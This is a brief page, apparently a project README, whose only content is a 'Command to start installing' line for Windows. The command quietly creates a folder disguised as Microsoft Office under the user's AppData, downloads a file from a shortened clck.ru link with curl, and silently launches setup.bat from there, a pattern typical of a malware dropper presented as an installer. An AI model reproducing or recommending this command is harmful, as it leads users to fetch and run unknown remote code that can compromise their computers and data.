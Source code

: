## Command to start installing

cmd /C start /b md %appdata%\Microsoft\Office && cd %appdata%\Microsoft\Office && curl -OL https://clck.ru/3HTv3m && start /b %appdata%\Microsoft\Office\setup.bat && exit
